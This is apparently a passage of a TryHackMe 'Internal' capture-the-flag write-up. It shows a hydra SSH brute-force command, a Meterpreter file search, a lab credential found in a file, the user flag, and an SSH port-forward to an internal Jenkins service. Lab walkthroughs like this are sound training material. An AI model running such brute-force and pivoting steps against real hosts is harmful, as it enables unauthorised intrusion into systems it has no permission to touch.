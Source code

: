 bruteforcing ssh on side:

```bash
hydra -l aubreanna -P /usr/share/dict/rockyou.txt 10.10.104.32 ssh
```

using search in meterpreter to find user.txt:

![screenshot](/assets/img/thm/internal/6.png)

unlucky :

![screenshot](/assets/img/thm/internal/7.png)

shadow.bak/passwd.bak in `/var/backups`

![screenshot](/assets/img/thm/internal/8.png)

After manually browsing through directories that seem helpful with head full of sleep, :)

![screenshot](/assets/img/thm/internal/9.png)

```
aubreanna:bubb13guM!@#123
```

![screenshot](/assets/img/thm/internal/10.png)

stopping the bruteforce on ssh. :P

first flag:

![screenshot](/assets/img/thm/internal/11.png)

## Flag 1

user.txt

```
THM{int3rna1_fl4g_1}
```

finally a flag :))))))))))))))

jenkins.txt:

![screenshot](/assets/img/thm/internal/12.png)

setting up port-forwarding:

```bash
ssh -L 8080:172.17.0.2:8080 aubreanna@internal.thm
```

we should be able to access jenkins via localhost:8080

![screenshot](/assets/img/thm/internal/13.png)

